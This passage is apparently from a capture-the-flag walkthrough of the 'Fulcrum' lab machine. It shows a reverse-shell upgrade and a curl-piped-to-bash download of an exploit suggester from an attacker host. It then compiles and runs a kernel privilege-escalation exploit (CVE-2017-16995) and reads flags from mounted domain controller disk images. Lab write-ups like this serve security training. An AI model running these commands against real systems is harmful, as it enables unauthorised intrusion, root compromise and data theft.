vnet1     Link encap:Ethernet  HWaddr fe:54:00:32:59:e0
          inet6 addr: fe80::fc54:ff:fe32:59e0/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:42027 errors:0 dropped:0 overruns:0 frame:0
          TX packets:237510 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:15875997 (15.8 MB)  TX bytes:31903923 (31.9 MB)

vnet2     Link encap:Ethernet  HWaddr fe:54:00:82:69:f5
          inet6 addr: fe80::fc54:ff:fe82:69f5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:46134 errors:0 dropped:0 overruns:0 frame:0
          TX packets:244596 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3906754 (3.9 MB)  TX bytes:20062470 (20.0 MB)

vnet3     Link encap:Ethernet  HWaddr fe:54:00:01:c6:b8
          inet6 addr: fe80::fc54:ff:fe01:c6b8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:67768 errors:0 dropped:0 overruns:0 frame:0
          TX packets:211767 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:23077107 (23.0 MB)  TX bytes:24702709 (24.7 MB)

vnet4     Link encap:Ethernet  HWaddr fe:54:00:32:d7:13
          inet6 addr: fe80::fc54:ff:fe32:d713/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:119831 errors:0 dropped:0 overruns:0 frame:0
          TX packets:286634 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:18628429 (18.6 MB)  TX bytes:21411743 (21.4 MB)

vnet5     Link encap:Ethernet  HWaddr fe:54:00:8f:b9:f9
          inet6 addr: fe80::fc54:ff:fe8f:b9f9/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:72944 errors:0 dropped:0 overruns:0 frame:0
          TX packets:218916 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:9965624 (9.9 MB)  TX bytes:17749711 (17.7 MB)

web       Link encap:Ethernet  HWaddr 52:54:00:15:08:7e
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6494 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:836331 (836.3 KB)  TX bytes:0 (0.0 B)

$
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Fulcrum:/$ ^Z
[1]+  Stopped                 nc -nlvp 9003
root@kali:~/fulcrum# echo $TERM
xterm-256color
root@kali:~/fulcrum# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/fulcrum# stty raw -echo
root@kali:~/fulcrum# nc -nlvp 9003
                                  reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@Fulcrum:/$ export SHELL=bash
www-data@Fulcrum:/$ stty rows 51 columns 204
www-data@Fulcrum:/$
```

[`linux-exploit-suggester`](https://github.com/mzet-/linux-exploit-suggester)

```sh
root@kali:~/fulcrum/winrm# wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
--2018-06-14 21:02:10--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.52.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.52.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 63226 (62K) [text/plain]
Saving to: ‘les.sh’

les.sh                                             100%[================================================================================================================>]  61.74K  --.-KB/s    in 0.09s

2018-06-14 21:02:11 (655 KB/s) - ‘les.sh’ saved [63226/63226]

root@kali:~/fulcrum/winrm# python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.62 - - [14/Jun/2018 21:02:53] "GET /les.sh HTTP/1.1" 200 -
```

```sh
www-data@Fulcrum:/$ curl http://10.10.14.16:8090/les.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 63226  100 63226    0     0  72120      0 --:--:-- --:--:-- --:--:-- 72093

Available information:

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: \4
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

70 kernel space exploits
32 user space exploits

Possible Exploits:

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Tags: ubuntu=14.04,fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [N/A] target_offset

   Details: https://www.exploit-db.com/exploits/40049/
   Tags: ubuntu=16.04(kernel:4.4.0-21)
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/40053.zip
   Comments: ip_tables.ko needs to be loaded

cat: write error: Broken pipe
[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Tags: ubuntu=16.04(kernel:4.4.0-62)
   Download URL: https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40616

cat: write error: Broken pipe
[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Tags: ubuntu=16.04|14.04
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

cat: write error: Broken pipe
[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included

cat: write error: Broken pipe
[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Tags: ubuntu=16.04
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

cat: write error: Broken pipe
[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Tags: ubuntu=16.04(kernel:4.8.0-41)
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/cve-2017-7308/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

cat: write error: Broken pipe
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://blog.aquasec.com/ebpf-vulnerability-cve-2017-16995-when-the-doorman-becomes-the-backdoor
   Tags: ubuntu=16.04.4(kernel:4.4.0-116)
   Download URL: https://www.exploit-db.com/download/44298
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

cat: write error: Broken pipe
[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Tags: ubuntu=14.04(kernel:4.4.0-*)|16.04(kernel:4.8.0-*)
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/cve-2017-1000112/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2017-1000253] PIE_stack_corruption

   Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
   Tags: RHEL=7(kernel:3.10)
   Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2016-1247] nginxed-root.sh

   Details: https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
   Tags: debian=8,ubuntu=14.04|16.04|16.10
   Download URL: https://legalhackers.com/exploits/CVE-2016-1247/nginxed-root.sh
   Comments: Rooting depends on cron.daily (up to 24h of dealy). Affected: deb8: <1.6.2; 14.04: <1.4.6; 16.04: 1.10.0

[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64

   Details: https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt
   Tags: debian=7.7|8.5|9.0,ubuntu=14.04.2|16.04.2|17.04,fedora=22|25,centos=7.3.1611
   Download URL: https://www.qualys.com/2017/06/19/stack-clash/linux_ldso_hwcap_64.c
   Comments: Uses "Stack Clash" technique, works against most SUID-root binaries

cat: write error: Broken pipe
[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Tags: debian=9(glibc:2.24-11+deb9u1),ubuntu=16.04.3(glibc:2.23-0ubuntu9)
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

www-data@Fulcrum:/$
```

```sh
www-data@Fulcrum:/$ uname -a
Linux Fulcrum 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@Fulcrum:/$
www-data@Fulcrum:/$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
www-data@Fulcrum:/$
```

```sh
root@kali:~/fulcrum# searchsploit "Ubuntu 16.04.4"
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04 | exploits/linux/local/44298.c
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~/fulcrum#
root@kali:~/fulcrum# searchsploit -m exploits/linux/local/44298.c
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298/
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/fulcrum/44298.c


root@kali:~/fulcrum#
root@kali:~/fulcrum# gcc 44298.c -o exploit
```

```sh
root@kali:~/fulcrum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.62 - - [14/Jun/2018 21:13:49] "GET /exploit HTTP/1.1" 200 -
```

```sh
www-data@Fulcrum:/$ cd /tmp
www-data@Fulcrum:/tmp$ curl http://10.10.14.16:80/exploit -o exploit
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 13784  100 13784    0     0  20531      0 --:--:-- --:--:-- --:--:-- 20542
www-data@Fulcrum:/tmp$ chmod +x exploit
www-data@Fulcrum:/tmp$ ./exploit
task_struct = ffff8800b942c600
uidptr = ffff880034dbdec4
spawning root shell
root@Fulcrum:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@Fulcrum:/tmp#
root@Fulcrum:/tmp# ps -ef | grep DC
libvirt+   1708      1  4 Jun11 ?        04:08:53 qemu-system-x86_64 -enable-kvm -name DC -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu Westmere -m 2048 -realtime mlock=off -smp 2,sockets=2,cores=1,threads=1 -uuid 3fe2f36c-ce5f-4907-b8d0-77f992d9e3c4 -nographic -no-user-config -nodefaults -chardev socket,id=charmonitor,path=/var/lib/libvirt/qemu/domain-DC/monitor.sock,server,nowait -mon chardev=charmonitor,id=monitor,mode=control -rtc base=utc,driftfix=slew -global kvm-pit.lost_tick_policy=discard -no-hpet -no-shutdown -global PIIX4_PM.disable_s3=1 -global PIIX4_PM.disable_s4=1 -boot strict=on -device ich9-usb-ehci1,id=usb,bus=pci.0,addr=0x5.0x7 -device ich9-usb-uhci1,masterbus=usb.0,firstport=0,bus=pci.0,multifunction=on,addr=0x5 -device ich9-usb-uhci2,masterbus=usb.0,firstport=2,bus=pci.0,addr=0x5.0x1 -device ich9-usb-uhci3,masterbus=usb.0,firstport=4,bus=pci.0,addr=0x5.0x2 -device virtio-serial-pci,id=virtio-serial0,bus=pci.0,addr=0x4 -drive file=/var/lib/libvirt/images/DC.vmdk,format=vmdk,if=none,id=drive-ide0-0-0 -device ide-hd,bus=ide.0,unit=0,drive=drive-ide0-0-0,id=ide0-0-0,bootindex=1 -drive if=none,id=drive-ide0-0-1,readonly=on -device ide-cd,bus=ide.0,unit=1,drive=drive-ide0-0-1,id=ide0-0-1 -netdev tap,fd=27,id=hostnet0 -device rtl8139,netdev=hostnet0,id=net0,mac=52:54:00:32:d7:13,bus=pci.0,addr=0x3 -chardev pty,id=charserial0 -device isa-serial,chardev=charserial0,id=serial0 -chardev spicevmc,id=charchannel0,name=vdagent -device virtserialport,bus=virtio-serial0.0,nr=1,chardev=charchannel0,id=channel0,name=com.redhat.spice.0 -device qxl-vga,id=video0,ram_size=67108864,vram_size=67108864,vgamem_mb=16,bus=pci.0,addr=0x2 -chardev spicevmc,id=charredir0,name=usbredir -device usb-redir,chardev=charredir0,id=redir0 -chardev spicevmc,id=charredir1,name=usbredir -device usb-redir,chardev=charredir1,id=redir1 -device virtio-balloon-pci,id=balloon0,bus=pci.0,addr=0x6 -msg timestamp=on
root      52024  52013  0 02:14 pts/5    00:00:00 grep DC
root@Fulcrum:/tmp#
```

###### Mounting the VMDK Files and accessing AD

```sh
root@Fulcrum:/tmp# cd /var/lib/libvirt/images
root@Fulcrum:/var/lib/libvirt/images# ls -lah
total 22G
drwx--x--x 2 root         root 4.0K Oct 16  2017 .
drwxr-xr-x 7 root         root 4.0K Jun 11 03:38 ..
-rw------- 1 libvirt-qemu kvm  6.7G Jun 15 02:15 DC.vmdk
-rw------- 1 libvirt-qemu kvm  6.4G Jun 15 02:15 FILE.vmdk
-rw------- 1 libvirt-qemu kvm  833M Jun 15 02:15 FW.vmdk
-rw-r--r-- 1 libvirt-qemu kvm  7.6G Jun 15 02:15 WEB01.vmdk
root@Fulcrum:/var/lib/libvirt/images# modprobe nbd
root@Fulcrum:/var/lib/libvirt/images# qemu-nbd -r -c /dev/nbd1 DC.vmdk
root@Fulcrum:/var/lib/libvirt/images# mount /dev/nbd1p1 /mnt
mount: /dev/nbd1p1 is write-protected, mounting read-only
root@Fulcrum:/var/lib/libvirt/images# cd /mnt/
root@Fulcrum:/mnt# ls -lah
total 408K
dr-x------  1 root root 4.0K Oct  2  2017 .
drwxr-xr-x 23 root root 4.0K Oct 24  2017 ..
-r--------  1 root root    1 Jul 16  2016 BOOTNXT
-r--------  1 root root 8.0K Oct  2  2017 BOOTSECT.BAK
dr-x------  1 root root 8.0K Oct  2  2017 Boot
dr-x------  1 root root    0 Oct  2  2017 Recovery
-r--------  1 root root 381K Nov 21  2016 bootmgr
root@Fulcrum:/mnt# cd /var/lib/libvirt/images
root@Fulcrum:/var/lib/libvirt/images# umount /mnt/
root@Fulcrum:/var/lib/libvirt/images# mount /dev/nbd1p2 /mnt/
mount: /dev/nbd1p2 is write-protected, mounting read-only
root@Fulcrum:/var/lib/libvirt/images# cd /mnt/
root@Fulcrum:/mnt# ls -lah
total 385M
dr-x------  1 root root    0 Nov 21  2016 $RECYCLE.BIN
dr-x------  1 root root 4.0K Oct  2  2017 .
drwxr-xr-x 23 root root 4.0K Oct 24  2017 ..
-r--------  1 root root    1 Jul 16  2016 BOOTNXT
dr-x------  1 root root    0 Oct  2  2017 Documents and Settings
dr-x------  1 root root    0 Jul 16  2016 PerfLogs
dr-x------  1 root root 4.0K Nov 21  2016 Program Files
dr-x------  1 root root 4.0K Nov 21  2016 Program Files (x86)
dr-x------  1 root root 4.0K Oct  2  2017 ProgramData
dr-x------  1 root root    0 Oct  2  2017 Recovery
dr-x------  1 root root    0 Oct  2  2017 System Volume Information
dr-x------  1 root root 4.0K Oct 16  2017 Users
dr-x------  1 root root  16K Oct  2  2017 Windows
-r--------  1 root root 381K Nov 21  2016 bootmgr
-r--------  1 root root 384M Jun 11 03:43 pagefile.sys
root@Fulcrum:/mnt# cd Users/Administrator/Desktop/
root@Fulcrum:/mnt/Users/Administrator/Desktop# cat root.txt
��8ddbe372e57c019bb6c4cdb5b35a0cab
root@Fulcrum:/mnt/Users/Administrator/Desktop#
```

```sh
root@Fulcrum:/mnt/Users/Administrator/Desktop# cd /var/lib/libvirt/images
root@Fulcrum:/var/lib/libvirt/images# qemu-nbd -r -c /dev/nbd2 FILE.vmdk
root@Fulcrum:/var/lib/libvirt/images# mount /dev/nbd2
nbd2    nbd2p1  nbd2p2
root@Fulcrum:/var/lib/libvirt/images# mount /dev/nbd2p2 /mnt/
mount: /dev/nbd2p2 is write-protected, mounting read-only
root@Fulcrum:/var/lib/libvirt/images# cd /mnt/
root@Fulcrum:/mnt# ls
$RECYCLE.BIN  BOOTNXT  Documents and Settings  PerfLogs  Program Files	Program Files (x86)  ProgramData  Recovery  System Volume Information  Users  Windows  bootmgr	pagefile.sys
root@Fulcrum:/mnt# cd Users/
root@Fulcrum:/mnt/Users# ls
8002  8270  845a  8649	8861  8aba  8d23  8f5c	9159  9473  960c  9901	9b1d  9d00  9f0c		   a0ee  a305  a4ec  a783  aa23  ac5d  af25  b0b2  b300  b5ee  b7b5  b9c3  bb83  be4b
8005  8272  8468  8676	8868  8ac1  8d25  8f73	915f  9486  961b  9912	9b1e  9d0d  9f18		   a0f2  a311  a4f4  a785  aa2d  aca1  af36  b0b6  b30d  b5f8  b7be  b9c5  bb9b  be64
8008  828b  846b  868b	8871  8aca  8d28  8f7e	9169  9492  961d  9919	9b34  9d11  9f36		   a101  a31d  a556  a793  aa39  acad  af4e  b0ca  b329  b600  b7cc  b9cb  bbcf  be6f
8014  8291  8470  8691	8878  8af1  8d56  8f8c	918d  9498  9634  991f	9b3f  9d15  9f4b		   a113  a358  a557  a79f  aa44  acd4  af69  b0e6  b330  b607  b7d3  b9ce  bbd5  be85
801c  82a6  8473  8696	8886  8afc  8d58  8f91	9192  94a4  963b  9922	9b46  9d20  9f4c		   a122  a359  a55a  a7e6  aa4c  acd8  af6d  b0ee  b355  b62f  b7d6  b9df  bbde  be93
802f  82aa  8482  86a0	88b9  8b1f  8d59  8f9a	9195  94c8  9645  9923	9b47  9d35  9f53		   a124  a35d  a56b  a7f8  aa6e  acf7  af77  b0f4  b3ad  b635  b7d9  b9e2  bbfe  beae
803a  82b4  849f  86b1	88c8  8b24  8d76  8f9b	91a5  94d0  9664  993a	9b79  9d40  9f59		   a129  a365  a594  a815  aa77  acfb  af8a  b10d  b3af  b64c  b82e  b9e6  bc00  bec5
8042  82c4  84a0  86cf	88e6  8b49  8d86  8faf	91b2  94d8  966b  995a	9b86  9d53  9f5b		   a133  a371  a59e  a82c  aa83  acfc  af9e  b119  b3b5  b650  b832  b9f1  bc0b  bedb
805e  82cf  84aa  86fe	88e8  8b62  8d92  8fb2	91d9  94d9  969a  9961	9b94  9d91  9f68		   a14f  a382  a5a3  a830  aa87  ad06  afa8  b11f  b3b7  b668  b834  b9f9  bc0d  bedc
8072  82ea  84bb  8706	8907  8b6f  8da0  8fbf	91e8  94f8  96b4  996b	9b9f  9d97  9f8b		   a15f  a383  a5a5  a86a  aa8a  ad43  afaa  b124  b3d4  b67c  b835  ba09  bc1b  bee6
8082  82ed  84c3  870e	8915  8b77  8da9  8fd1	91ec  94ff  96c3  9974	9ba7  9db3  9fa2		   a176  a38e  a5ca  a882  aab6  ad45  afb6  b125  b3e3  b694  b83c  ba1e  bc1c  bf02
80a3  82f5  84c5  8733	8916  8bad  8dd3  8fd2	920f  9500  96d9  9977	9baf  9dbe  9fb9		   a17a  a3a1  a5cc  a8ae  aad3  ad53  afc0  b141  b3e6  b69f  b846  ba28  bc38  bf4d
80d2  8315  84cd  8736	891e  8bb4  8dd7  8ffc	923a  950b  96dc  9993	9bb3  9dc5  9fc0		   a180  a3a2  a5d8  a8bc  aad5  ad54  afd2  b15a  b40d  b6a4  b861  ba33  bc3c  bf78
80e8  8316  84d0  873a	893c  8bb5  8dd9  9023	923e  951a  96e2  999f	9bca  9dd8  9fc4		   a183  a3af  a61a  a8c4  aaf6  ad60  afd5  b15b  b412  b6ad  b87b  ba53  bc43  bfa8
80f4  8322  84f1  8741	8949  8bbd  8ddb  9033	924a  951b  971a  99ab	9bcd  9de8  9fcd		   a19c  a3b9  a63d  a8c9  ab14  ad64  afd7  b191  b441  b6af  b886  ba64  bc4f  bfa9
80fe  8327  8519  875d	8967  8bd5  8de0  9034	926b  9529  971c  99b4	9bd3  9e2a  9fe6		   a1a8  a3bd  a641  a8d1  ab28  ad70  afec  b19e  b461  b6bb  b893  ba83  bca3  bfc0
8108  832d  851b  8767	896a  8be8  8de6  9042	9271  9531  9737  99b7	9be5  9e39  9fff		   a1aa  a3de  a65b  a8de  ab32  ad71  afef  b19f  b464  b6bc  b89e  ba8b  bcb2  bfc9
810c  8332  8521  876c	8972  8c0a  8e07  905b	92bd  9532  9750  99d9	9bf1  9e4e  Administrator	   a1b0  a3e4  a667  a8df  ab38  ad74  b005  b1bc  b46b  b6c6  b8a8  ba92  bcb7  bfd1
8119  8334  8531  877d	8990  8c12  8e13  905c	92c3  953d  9791  99f7	9bfe  9e57  Administrator.FULCRUM  a1ba  a3f6  a677  a8fc  ab6f  ad8e  b014  b1c9  b473  b6c8  b8af  bab0  bceb  bfd7
812d  8336  853d  878f	8998  8c17  8e38  906d	92fd  9547  97b7  9a02	9c17  9e66  All Users		   a1e6  a413  a69d  a8fe  ab83  ada7  b018  b1cf  b4b2  b6ca  b8cb  bab2  bcf5  bfdd
8139  834d  8558  879c	89b3  8c32  8e4b  906e	935a  9594  97de  9a0e	9c2e  9e67  BTables		   a1ec  a417  a6a0  a90e  ab87  adb9  b01f  b1df  b4ba  b6cb  b8f0  bab5  bd05  bfed
8146  8358  855c  879f	89b7  8c39  8e51  9082	936d  959c  97e9  9a11	9c36  9e83  Default		   a1f5  a42f  a6a2  a911  ab8a  ade1  b027  b23d  b4d0  b6ce  b8fa  bad0  bd16  bff5
8165  8376  856b  87ae	89d3  8c3b  8e78  90d1	9382  95a6  97ef  9a1d	9c38  9e92  Default User	   a204  a44a  a6ae  a944  aba3  ade3  b02e  b26e  b4df  b70a  b908  bad4  bd27  desktop.ini
8181  8399  856e  87d1	89de  8c49  8e8a  90d4	9388  95a8  97f0  9a3c	9c52  9e96  Public		   a212  a44d  a6b2  a94a  aba8  adeb  b046  b270  b4e7  b71f  b92a  bad7  bd2e
81b2  839d  8573  87d6	89e4  8c60  8e9b  90d5	9391  95a9  9821  9a4a	9c53  9ea5  a01c		   a238  a482  a6b9  a955  abb1  adef  b047  b287  b52a  b734  b92e  baf0  bd59
81c2  83a0  857b  87ef	89fb  8c63  8ead  90f2	93a9  95aa  9827  9a77	9c63  9ea9  a022		   a24f  a484  a6bd  a95a  abb9  adf7  b04b  b29f  b54f  b737  b935  bafd  bd5c
81cc  83b9  859c  8820	89fc  8c7a  8ebc  9113	93af  95b7  984a  9a83	9c6b  9eaa  a02b		   a251  a485  a6d0  a95d  abe1  ae01  b04e  b2a7  b58a  b747  b939  bb0f  bd61
81cd  83bf  85a6  8836	8a17  8c88  8ec2  9115	93c1  95ba  984c  9a8c	9c79  9eab  a039		   a264  a493  a6dc  a965  abec  ae10  b05a  b2b4  b598  b750  b93a  bb14  bd69
81d7  83c3  85aa  883f	8a3b  8c98  8ed4  9116	93c5  95c4  9866  9a8d	9c7d  9eb3  a04f		   a26a  a49d  a6fa  a97f  ac1e  ae60  b05d  b2c2  b59a  b77d  b966  bb2d  bd6f
81fe  83ce  85b5  8849	8a3f  8cc6  8ede  911a	93d6  95dd  987b  9a9f	9c91  9eb7  a073		   a29f  a4a6  a700  a980  ac26  ae61  b071  b2d5  b5ad  b781  b970  bb46  bd72
8204  8407  85e5  8852	8a4c  8cd0  8efb  9120	93df  95e3  9884  9aac	9c92  9ec7  a095		   a2b7  a4b3  a720  a9f6  ac27  ae7a  b077  b2d7  b5b8  b785  b992  bb52  bd7b
8223  8409  8630  8858	8a6b  8cde  8f1b  9122	93f3  95e8  98a0  9ac1	9c93  9eca  a0d5		   a2bd  a4b5  a721  aa03  ac36  ae8e  b08c  b2eb  b5ba  b786  b994  bb5c  bdb0
822c  8420  8631  885b	8a6c  8ce5  8f1d  9129	93fa  95ea  98ab  9ade	9cdd  9ee8  a0e0		   a2c6  a4ce  a724  aa0f  ac44  af0f  b08d  b2ee  b5cc  b790  b997  bb61  bded
824e  843c  8635  885c	8a82  8ce7  8f2c  9137	940b  95f2  98d5  9ae0	9cea  9efa  a0eb		   a2c7  a4e3  a770  aa13  ac4a  af1e  b09b  b2f3  b5d6  b79d  b9a3  bb6e  be36
826a  8456  8636  885f	8ab3  8d0e  8f56  9155	9465  95fa  98fa  9b14	9cfa  9f01  a0ec		   a2e4  a4e6  a781  aa1f  ac4b  af1f  b09e  b2fd  b5e0  b7ab  b9ad  bb7e  be46
root@Fulcrum:/mnt/Users# find . -name user.txt
./BTables/Desktop/user.txt
root@Fulcrum:/mnt/Users# cat ./BTables/Desktop/user.txt
fce52521c8f872b514f037fada78daf4
root@Fulcrum:/mnt/Users#
```